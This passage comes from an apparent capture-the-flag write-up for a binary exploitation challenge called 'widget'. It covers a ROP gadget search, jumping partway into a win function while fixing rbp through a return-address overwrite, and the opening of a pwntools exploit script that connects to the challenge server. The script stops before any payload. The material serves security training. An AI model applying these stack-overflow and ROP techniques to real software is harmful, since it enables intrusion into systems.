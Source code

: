 ```
(widget/ELF/x86_64)> search pop%
[INFO] Searching for gadgets: pop%

[INFO] File: widget
0x000000000040127d: pop rbp; ret;
```

We usually get at least a `pop rdi; ret;` and a `pop rsi; pop r15; ret;`, which come from boilerplate added by the compiler when compiling against GLIBC.
I don't really know how they did it, but this binary is compiled against GLIBC, but it does not contain the `__libc_csu_init` function.

Without these two gadgets, we cannot actually call the `win` function correctly... well, we actually can: who said that we have to call the `win` function from the start? We can actually just call the `win` function from the start of the `fopen` call and get the flag.

Notice that we also need to make sure that `rbp` contains a writeable address. In most cases, when possible, having `rbp` point to somewhere in the `bss` is the best choice. This is due to the fact that `rbp` is used to reference stack positions when, for example, saving the `FILE *` resulting from the `fopen` call. Note that, while we do have a `pop rbp; ret;` gadget, we simply need to set a valid `rbp` on the stack when overwriting the return address. The `leave` instruction will do the rest.

```py
#!/usr/bin/env python3

from pwn import *
from subprocess import check_output

HOST = "challs.actf.co"
PORT = 31320

exe = ELF("./widget_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]

gdbscript = """
b *0x004014c7
"""


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], **kw)
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript=gdbscript, **kw)
    else:
        return remote(HOST, PORT, **kw)


io = conn(level="debug")


def main():
    global io

    # good luck pwning :)
    if not args.LOCAL and not args.GDB:
        io.recvuntil(b"sh -s ")
        io.sendlineafter(
            b"solution: ", check_output(["./pow", io.recvline(keepends=False).decode()])
        )
```